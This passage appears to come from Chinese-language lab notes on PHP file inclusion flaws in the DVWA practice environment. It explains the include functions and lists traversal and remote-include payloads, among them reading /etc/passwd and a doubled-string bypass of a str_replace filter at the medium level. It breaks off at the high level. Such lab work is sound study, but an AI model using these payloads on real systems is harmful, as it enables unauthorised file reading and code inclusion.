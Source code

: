 require:找不到被包含的文件，报错，并且停止运行脚本。  

include:找不到被包含的文件,只会报错，但会继续运行脚本。  

require_once:与require类似,区别在于当重复调用同一文件时,程序只调用一次。  

include_once:与include类似,区别在于当重复调用同一文件时,程序只调用一次。  

### **目录遍历与文件包含的区别**  

目录遍历是可以读取web目录以外的其他目录,根源在于对路径访问权限设置不严格，针对本系统。  

文件包含是利用函数来包含web目录以外的文件，分为本地包含和远程包含。  

### **文件包含特征**  

```  
?page=a.php  
?home=b.html  
?file=content  
```

### **检测方法**  

```  
?file=../../../../etc/passwd  
?page=file:///etc/passwd  
?home=main.cgi  
?page=http://www.a.com/1.php  
<http://1.1.1.1/dir/file.txt>  
```

### low  

没有任何过滤，可以进行包含任意文件。  

```  
<http://127.0.0.1/vulnerabilities/fi/?page=http://127.0.0.1/phpinfo.php>  
```

### medium  

添加了两个过滤条件：  

```php  
$file = str_replace( array( "http://", "https://" ), "", $file );  
$file = str_replace( array( "../", "..\\"" ), "", $file );  
```

使用 `str_replace` 函数进行过滤是很不安全的，因为可以使用双写绕过。例如，我们包含 `hthttp://tp://xx` 时, `str_replace` 函数只会过滤一个 `http://` ，所以最终还是会包含到 [`http://xx`](http://xx/)  

```  
<http://127.0.0.1/vulnerabilities/fi/?page=htthttp://p://127.0.0.1/phpinfo.php>  
```

### high  
